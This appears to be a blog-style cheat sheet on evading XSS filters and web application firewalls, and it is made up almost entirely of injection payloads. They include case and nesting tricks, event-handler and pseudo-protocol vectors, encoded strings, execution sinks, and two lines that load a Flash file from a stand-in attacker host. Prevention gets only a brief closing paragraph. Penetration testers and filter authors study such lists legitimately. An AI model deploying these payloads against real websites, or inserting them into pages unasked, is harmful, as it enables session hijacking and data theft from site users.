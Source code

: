 # XSS Filter Evasion and WAF Bypassing Tactics

## Introduction

Cross-Site Scripting (XSS) attacks involve injecting malicious scripts into trustworthy websites. These attacks exploit flaws in web applications that accept user input without proper verification or encoding. Various guides and cheat sheets, like "XSS Filter Evasion Cheat Sheet" by RSnake and Cure53's initiative, aid security professionals in testing XSS problems.

This book focuses on identifying possible scenarios encountered in XSS attacks and strategies to overcome them.

### Common Scenarios

1. The XSS vector is blocked by the application or another entity.
2. The XSS vector is sanitized.
3. The XSS vector is filtered or blocked by the browser.

## Bypassing Blacklisting Filters

Blacklist mode filters, commonly used for their ease of installation, identify specific patterns to prevent malicious behavior. Bypassing these filters involves clever techniques.

### Script Code Injection

The `<script>` tag is a primary method for executing client-side scripting code. Weak tag banning rules can be exploited.

#### Getting Around Weak Tag Banning

Examples of weak rules exploitation:

- `<ScRiPt>alert(1);</ScRiPt>` - Upper- & Lower-case characters
- `<ScRiPt>alert(1);` - Upper- & Lower-case characters, without closing tag
- `<script/random>alert(1);</script>` - Random string after the tag name
- `<script>alert(1);</script>` - Newline after the tag name
- `<scr<script>ipt>alert(1)</scr<script>ipt>` - Nested tags
- `<scr\x00ipt>alert(1)</scr\x00ipt>` - NULL byte (IE up to v9)

### ModSecurity Script Tag Rule

ModSecurity filters the `<script>` tag with a rule like:

```regex
SecRule ARGS "(?i)(<script[^>]*>[\s\S]*?<\/script[^>]*>|<script[^>]*>[\s\S]*?<\/script[[\s\S]]*[\s\S]|<script[^>]*>[\s\S]*?<\/script[\s]*[\s]|<script[^>]*>[\s\S]*?)"
```

Different HTML tags and related event handlers can also be used:

- `<a href="javascript:alert(1)">show</a>`
- `<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">show</a>`
- `<form action="javascript:alert(1)"><button>send</button></form>`
- `<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>`
- `<object data="javascript:alert(1)">`
- `<object data="data:text/html,<script>alert(1)</script>">`
- `<object data="data:text/html;base64, PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">`
- `<object data="//hacker.site/xss.swf">`
- `<embed code="//hacker.site/xss.swf" allowscriptaccess=always>`

### Events and Event Handlers

HTML DOM uses events for interactivity. Various event handlers can be used for XSS:

#### HTML 4 Tags Examples

- `<body onload=alert(1)>`
- `<input type=image src=x:x onerror=alert(1)>`
- `<isindex onmouseover="alert(1)" >`
- `<form oninput=alert(1)><input></form>`
- `<textarea autofocus onfocus=alert(1)>`
- `<input oncut=alert(1)>`

#### HTML 5 Tags Examples

- `<svg onload=alert(1)>`
- `<keygen autofocus onfocus=alert(1)>`
- `<video><source onerror="alert(1)">`
- `<marquee onstart=alert(1)>`

To bypass filters, mix HTML and browser dynamics:

- `<svg/onload=alert(1)>`
- `<svg//////onload=alert(1)>`
- `<svg id=x;onload=alert(1)>`
- `<svg id=\`x\`onload=alert(1)>`

#### Control Character Bypasses

Browsers have different sets of control characters:

- **IExplorer:** `[0x09,0x0B,0x0C,0x20,0x3B]`
- **Chrome:** `[0x09,0x20,0x28,0x2C,0x3B]`
- **Safari:** `[0x2C,0x3B]`
- **FireFox:** `[0x09,0x20,0x28,0x2C,0x3B]`
- **Opera:** `[0x09,0x20,0x2C,0x3B]`
- **Android:** `[0x09,0x20,0x28,0x2C,0x3B]`

Use control characters to bypass filters.

### Keyword Based Filters

Signature-based filters may limit scripting code execution by blocking specific keywords like alert, javascript, eval, etc. Character escaping and manipulation techniques help bypass these filters.

#### Character Escaping

JavaScript offers various character escape types. For example:

- Unicode: `<script>\u0061lert(1)</script>`
- Decimal, Octal, Hexadecimal: `<img src=x onerror="\u0061lert(1)"/>`
  
#### Constructing Strings

Useful methods for constructing strings:

-

 `/ale/.source+/rt/.source`
- `String.fromCharCode(97,108,101,114,116)`
- `atob("YWxlcnQ=")`
- `17795081..toString(36)`

### Execution Sinks

Execution sinks are functions parsing strings into JavaScript code. Examples:

- `setTimeout("JSCode") //all browsers`
- `setInterval("JSCode") //all browsers`
- `setImmediate("JSCode") //IE 10+`
- `Function("JSCode") //all browsers`

Use these sinks to run JavaScript code.

### Pseudo-protocols

JavaScript pseudo-protocols like javascript:, data:, and vbscript: can be leveraged. Examples:

- `<object data="JaVaScRiPt:alert(1)">`
- `<object data="javascript&colon;alert(1)">`
- `<embed code="data:text/html,<script>alert(1)</script>">`
  
#### Data URI Scheme

Useful for bypassing filters:

- `<object data="data:text/html,<script>alert(1)</script>">`
- `<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">`

#### VBScript Pseudo-protocol

Limited to Internet Explorer, examples:

- `<img src=a onerror="vbscript:msgbox 1"/>`
- `<img src=b onerror="vbs:msgbox 2"/>`
- `<img src=c onerror="vbs:alert(3)"/>`
- `<img src=d onerror="vbscript:alert(4)"/>`

### Bypassing Sanitization

Security systems often sanitize XSS vectors instead of blocking requests entirely. This involves HTML-encoding essential characters. String manipulations, removing HTML tags, and escaping quotes are strategies for bypassing sanitization.

#### String Manipulations

Be aware of recursive tests and try different vector sequences:

- `<scr<iframe>ipt>alert(1)</script>`

#### Escaping Quotes

Escape quotes using techniques like:

- `randomkey\' alert(1); //`

#### String Generation Methods

Explore various string generation methods:

- `String.fromCharCode()`
- `unescape(/%78%u0073%73/.source)`
- `decodeURI(/alert(%22xss%22)/.source)`

## How to Prevent Cross-Site Scripting

Filtering alone is insufficient; developers play a crucial role in securing applications. Context-sensitive escaping, proper encoding, and the use of HTTP security headers help prevent XSS. Focus on developing secure code to enhance application and user security.

**Thank you for reading! Feel free to checkout out on Twitter: [@N3T_hunt3r](https://twitter.com/N3T_hunt3r)**
